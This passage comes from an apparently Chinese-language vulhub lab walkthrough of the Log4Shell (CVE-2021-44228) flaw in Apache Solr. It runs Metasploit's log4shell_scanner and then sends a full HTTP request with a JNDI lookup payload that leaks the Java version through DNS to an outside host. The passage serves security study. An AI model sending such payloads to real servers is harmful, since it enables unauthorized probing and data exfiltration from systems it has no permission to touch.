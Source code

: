```
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvhost kali.local
```

设置 srvport

```
msf6 auxiliary(scanner/http/log4shell_scanner) > set srvport 8983
```

运行 log4shell_scanner

```
msf6 auxiliary(scanner/http/log4shell_scanner) > run
```

检测出存在 log4j2 漏洞

![检测出存在 log4j2 漏洞](./../../../../../images/vulhub/log4j/Apache Log4j2 lookup JNDI 注入漏洞（CVE-2021-44228）/检测出存在 log4j2 漏洞.png)

**数据外带**

在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起 DNS 请求，这个时候就可以通 DNSlog 把想获得的数据外带出来。

>DNSlog 是存储在 DNS Server 上的域名信息，它记录着用户对域名的访问信息，类似日志文件。

>DNSlog 回显
>
>当解析 `hello.com` 时无法回显，可以将 `hello.com` 及所有子域名泛解析到 `hello.com` 的 IP，此时解析 `www.hello.com` 就可以从 DNSlog 得到`hello.com` 的 IP。

将以下 Payload 作为管理员接口的 action 参数值发送至目标服务器

```
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

> `bn2sdf6d1h8qdh8t8805xefxjopfd91y.oastify.com`是利用 JNDI 发送 DNS 请求的 Payload
>
> 可以在 DNS 日志平台收到相关日志，显示出当前 Java 版本

打开 Burpsuite，进入  Burp Collaborator 
